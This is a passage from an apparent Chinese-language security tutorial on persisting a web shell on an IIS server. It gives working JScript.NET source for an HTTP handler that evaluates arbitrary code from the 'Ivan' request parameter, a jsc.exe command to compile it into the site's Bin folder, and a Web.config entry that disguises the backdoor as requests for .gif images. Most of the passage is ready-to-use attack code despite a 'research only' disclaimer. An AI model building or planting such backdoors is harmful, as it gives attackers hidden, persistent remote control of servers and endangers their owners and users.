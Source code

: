 <https://docs.microsoft.com/zh-cn/previous-versions/visualstudio/visual-studio-2010/7435xtz6(v=vs.100)>

笔者新建IsapiModu1e.Handler.js，实现代码如下

| import System; import System.Web; import System.IO; package IsapiModu1e{ public class Handler implements IHttpHandler{ function IHttpHandler.ProcessRequest(context : HttpContext){ context.Response.Write("\<H1\>Just for Research Learning, Do Not Abuse It! Written By \<a href='https://github.com/Ivan1ee'\>Ivan1ee\</a\>\</H1\>") var I = context; var Request = I.Request; var Response = I.Response; var Server = I.Server; eval(context.Request["Ivan"]); } function get IHttpHandler.IsReusable() : Boolean{ return true}}} |
|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


在WebShell里调用jsc.exe编译js脚本，输入

| C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\jsc.exe /t:library -out:C:\\inetpub\\wwwroot\\Bin\\IsapiModu1e.Handler.dll C:\\inetpub\\wwwroot\\IsapiModu1e.Handler.js |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


![](media/b7b6775f7a5ac0dd1cd4d8a9df813750.png)

![](media/38e40fc44d587448f24837ce61583cc5.png)

修改Web.config配置，添加新的DLL映射关系，完成这步整个菜刀后门配置完成。

| \<system.webServer\> \<modules runAllManagedModulesForAllRequests="true"/\> \<directoryBrowse enabled="true"/\> \<staticContent\> \<mimeMap fileExtension=".json" mimeType="application/json" /\> \</staticContent\> \<handlers\> \<add name="PageHandlerFactory-ISAPI-2.0-32-1" path="\*.gif" verb="\*" type="IsapiModu1e.Handler" preCondition="integratedMode"/\> \</handlers\> \</system.webServer\> |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


访问图片菜刀地址 <http://ip/news.gif> ，看到下图表示菜刀马运行成功！
